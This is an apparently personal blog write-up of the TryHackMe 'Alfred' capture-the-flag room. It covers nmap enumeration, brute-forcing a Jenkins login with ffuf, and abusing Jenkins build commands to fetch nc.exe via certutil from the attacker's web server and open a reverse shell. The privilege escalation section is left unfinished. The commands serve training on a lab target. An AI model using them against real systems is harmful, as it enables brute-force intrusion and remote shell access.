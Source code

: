 ```yaml
---
layout: post
description: Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
title: Tryhackme Alfred CTF Writeup
date: 2021-12-28 11:40
image: '/assets/img/posts/tryhackme-alfred-ctf-writeup/alfredbanner.png'
featured: false
---
```



# Enumeration

Run Network Mapper (**nmap**) on Alfred machine to discover opened ports and services.   

Full command : 
{% highlight bash %}
nmap -sV -sS -O -T4 -p- {machine IP} -Pn -oN {outputfile}
{% endhighlight %}

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|-sV                     | Probe open ports to determine service/version info     |
|-sS                     | SYN, half TCP scan                                     |
|-O                      | Enable OS detection                                    |
|-T4                     | T{0-5} Set scan speed, higher is faster                |
|-p-                     | Scan all 65536 ports                                   |
|-Pn                     | Skip host discovery                                    |
|-oN                     | Write output to a file                                 |

Output of the scan:
{% highlight bash %}
# Nmap 7.92 scan initiated Tue Dec 28 09:22:17 2021 as: nmap -sV -sS -O -T4 -p- -Pn -oN alfred.nmap 10.10.195.99
Nmap scan report for 10.10.195.99
Host is up (0.030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 09:24:13 2021 -- 1 IP address (1 host up) scanned in 115.63 seconds
{% endhighlight %}

Three ports are opened:
## Port 80 http Microsoft IIS httpd 7.5
Ordinary [**Microsoft IIS**](https://en.wikipedia.org/wiki/Internet_Information_Services) web server.
<br>Nothing fancy here.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/2.png)

## Port 3389 tcpwrapped
**tcpwrapped** means that the remote host closed the connection after completing the TCP three-way handshake without receiving any data.
<br>[**More information here**.](https://secwiki.org/w/FAQ_tcpwrapped)

## Port 8080 Jetty 9.4.z-SNAPSHOT

There is a [**Jenkins**](https://www.geeksforgeeks.org/what-is-jenkins/) login prompt on port 8080.
<br>![](/assets/img/posts/tryhackme-alfred-ctf-writeup/3.png)<br>
If you google it, you will see the default login credentials for Jenkins is **admin** for the username and **admin** for the password.
However, the system administrator could have changed the password to a different one. In that case default credentials
would be useless. So we will brute force the credentials for best practice.<br>

# Exploitation

In order to create a continuous HTTP request, we have to know how the HTTP request looks.
Launch the [**Burp Suite**](https://www.geeksforgeeks.org/what-is-burp-suite/) to examine the HTTP POST request sent 
when a login attempt occurs.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/4.png)_Request_<br><br>
There are three fields we have to make sure they are being sent with the HTTP request we will forge for this form.
1. [**application/x-www-form-urlencoded**](https://www.w3.org/TR/html401/interact/forms.html#h-17.13.4) : Encoding type
2. **j_username** : Username field
3. **j_password** : Password Field

I will use [**ffuf**](https://cybersecnerds.com/ffuf-everything-you-need-to-know/) to create POST requests toward the web server.
You can use any fuzzer tool like **THC Hydra**, **Burp Suite** or others. 
<br>Download [**SecLists**](https://github.com/danielmiessler/SecLists) repo with prepeared wordlists included.

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|-w                      | Dedicated wordlists                                    |
|-u                      | Target URL                                             |
|-data                   | Data which will be sent with the request               |
|-H                      | HTTP headers that will be sent with the request        |
|-fr                     | Regex which will be filtered out                       |


Full command:
{% highlight bash %}
ffuf -w SecLists/Usernames/top-usernames-shortlist.txt:W1,SecLists/Passwords/Common-Credentials/best1050.txt:W2 -u "http://10.10.56.186:8080/j_acegi_security_check" -data "j_username=W1&j_password=W2" -H "Content-Type: application/x-www-form-urlencoded" -fr "loginError"
{% endhighlight %}

![](/assets/img/posts/tryhackme-alfred-ctf-writeup/6.png)__Cracked the credentials, well done :)__<br><br>
A possible question would be, why filter out "loginError" string ? 
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/5.png)_Left: Request - Right:Response_<br><br>
That sent request got a response with [**HTTP 302 status code**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302), which is the status code for redirection.
It means whenever the application receives invalid credentials from the client; the server redirects the client to the "/loginError" URL.
Based on this, as long as the HTTP response does not include "/loginError" in it, it is safe to say we have sent a valid username-password pair
to the server.
<br><br>
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/7.png)__Login to the Jenkins panel via credentials.__

It is possible to do anything that Jenkins can do since we have an admin portal right now.However, if we could get a shell from the
system, it would be amazing.<br><br>
The way to get a shell from the system is to make Jenkins transmit and execute code in the system shell.<br>
Click on the first project named as **project**, then click **configure**.
Scroll down to the bottom, and you will see a box that executes the windows command written in it.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/9.png)<br>
On the project page, there is a **Build History** section. It is available to check the output of the batch command that had run.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/8.png)
Now, instead of printing the string value of the user who executes it with the **whoami** command, we have to connect to that shell.

<br>I will use [**Netcat**](https://www.ionos.com/digitalguide/server/tools/netcat/) in this manner. It is required to have Netcat downloaded in both the attacker and the
victim machine.
- Download static [**nc.exe**](https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe) binary for to run it in the victim machine 
- Start a Python3 server in the directory that includes the Netcat static binary file.
<br>Run:
{% highlight shell%}
sudo python3 -m http.server 80
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/10.png)
- Start a Netcat listener in the attacker machine.
<br>Run:
{% highlight shell%}
nc -nvlp {ANY FREE PORT}
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/11.png)
- Download the static binary to the victim machine from the Python web server and run it.
{% highlight powershell%}
certutil.exe -urlcache -split -f http://{THM IP}:80/nc.exe
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/12.png)
- Click **Build** button on the project page.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/13.png)

A get request was made to the web server.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/14.png)
Then we got the shell.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/15.png)__We are in, nice progress ;)__
To get user flag, run:
{% highlight powershell %}
type "C:\Users\Bruce\Desktop\user.txt"
{% endhighlight%}

# Privilege Escelation

To be continued...
